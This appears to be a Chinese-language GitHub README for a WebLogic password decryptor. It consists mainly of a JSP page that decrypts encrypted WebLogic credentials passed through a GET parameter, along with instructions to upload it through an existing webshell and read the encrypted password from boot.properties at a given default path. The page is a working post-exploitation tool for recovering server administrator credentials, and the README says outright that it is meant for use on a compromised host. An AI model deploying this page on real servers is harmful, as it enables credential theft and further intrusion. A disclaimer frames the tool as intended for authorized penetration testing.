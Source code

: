 ## jsp在线解密weblogic，加强判断，get传参

![](./decode.png)
```
<%@page pageEncoding="utf-8" %>
<%@page import="weblogic.security.internal.*,weblogic.security.internal.encryption.*" %>
<%
    EncryptionService es = null;
    ClearOrEncryptedService ces = null;
    String s = request.getParameter("p");
    es = SerializedSystemIni.getEncryptionService();
    if (es == null) {
        out.println("Unable to initialize encryption service");
        return;
    }
    ces = new ClearOrEncryptedService(es);
    if (s != null && s != ces.decrypt(s)) {
        out.println("[+] Data= " + s + "<br/>");
        out.println("[+] Decode_Data= " + ces.decrypt(s));
    } else {
        out.println("Decode Fail !");
    }
%>
```


# WebLogicPasswordDecryptorUi
weblogic解密JAVA UI版,欢迎提交BUG
![](20180313143338-76b76fb0-2688-1.png)



## WeblogicPassword 在线解密(转)

>  原文：https://xz.aliyun.com/t/2149

如有webshell可进行在线解密
把```weblogicdecryptor.jsp```放入服务器进行访问，s="" 中填写 weblogic 的加密密码，可在 boot.properties 文件中找到。默认路径为```../../../Server/security/boot.properties```

![](20180313143329-71963f48-2688-1.png)

## 法律
> 该项目仅供合法的渗透测试以及爱好者参考学习，请各位遵守《中华人民共和国网络安全法》以及相应地方的法律，禁止使用该项目进行违法操作，否则自行承担相关责任！
